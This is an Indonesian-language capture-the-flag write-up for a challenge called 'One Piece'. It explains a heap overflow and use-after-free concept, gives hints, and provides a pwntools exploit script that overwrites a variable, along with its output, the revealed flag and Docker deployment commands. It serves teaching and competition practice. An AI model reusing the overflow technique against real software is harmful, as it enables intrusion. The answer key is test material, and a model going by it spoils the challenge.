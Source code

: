 ## One Piece (309 Pts)

- [One Piece](#one-piece)
- [Deskripsi](#deskripsi)
- [Konsep soal](#konsep-soal)
- [HINT](#hint)
- [Proof of Concept](#proof-of-concept)
- [Refrensi](#refrensi)

## Deskripsi
Temukan One Piece dan jadilah Raja Bajak Laut

Author : **Dolf7**

Format Flag : Hology4{}

## Konsep soal
- Heap Overflow
- Use-After-Free
  

Untuk mendapat flag peserta harus dapat mengoverwrite suate variable. variable akan mempoint ke heap tapi sebelummnya heap sudah di penuhi oleh variable varible lain. Sehingga untuk dapat mengoverwite suatu variable yang dituju perlu mem-'free' heap yang ada. dan melakukan overwrite tsb.
   

## HINT
1. Marijoa terletak di Redline yang sangat tinggi. Bebaskan yang tertahan disana.
2. Yang pertama akan sangat membantu.


## Proof of Concept
```
#!usr/bin/env python3
from pwn import *
p = process('./onepiece')

elf = ELF('onepiece')
#x = 0x6f726f7a
x = b'zoro'
buff = b'a'*80
#payload = buff + p64(x)
payload = buff + x

p.sendline(b'1')
p.sendline(b'3')
p.sendline(b'6')
#p.recvuntil("ada berapa red poneglyph?")
p.sendline(b'4')
p.sendline(b'7')
p.sendline(b'8')
p.sendline(payload)
p.sendline(b'9')
p.interactive()
```

ouput :
```
$ python3 solve.py 
[+] Starting local process './onepiece': pid 13792
[*] '/home/dolf/Documents/POROS/Hology4/onepiece/onepiece'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Switching to interactive mode
Cari Road poneglyph dan temukan One Piece

1. Saobaody
2. Fishaman Island
3. New World
4. Punk Hazard
5. Dressrosa
6. Zou
7. Whole Cake Island (wci)
8. Wano Kuni
9. Laugh_tale
Datang Pertama : zoro
1. Saobaody
2. Fishaman Island
3. New World
4. Punk Hazard
5. Dressrosa
6. Zou
7. Whole Cake Island (wci)
8. Wano Kuni
9. Laugh_tale
Welcome to new World

1. Saobaody
2. Fishaman Island
3. New World
4. Punk Hazard
5. Dressrosa
6. Zou
7. Whole Cake Island (wci)
8. Wano Kuni
9. Laugh_tale
ada berapa red poneglyph?
Okay

1. Saobaody
2. Fishaman Island
3. New World
4. Punk Hazard
5. Dressrosa
6. Zou
7. Whole Cake Island (wci)
8. Wano Kuni
9. Laugh_tale
tankman & snakeman

1. Saobaody
2. Fishaman Island
3. New World
4. Punk Hazard
5. Dressrosa
6. Zou
7. Whole Cake Island (wci)
8. Wano Kuni
9. Laugh_tale
Ryuo beats dragon
btw, apa arc setelah wano??

1. Saobaody
2. Fishaman Island
3. New World
4. Punk Hazard
5. Dressrosa
6. Zou
7. Whole Cake Island (wci)
8. Wano Kuni
9. Laugh_tale
Kamu menemukannya, Raja Bajak Laut, 
hology4{0ne_Piece_1s_Rea1}

```

## Refrensi
Tidak ada

## Deployment

```
docker build -t onepiece
docker run -d --name=onepiece -p 38823:38823/tcp onepiece
crontab /path/to/crontab
```

## Flag
<details>
<summary>Tekan untuk melihat flag</summary>

    hology4{0ne_Piece_1s_Rea1}

</details>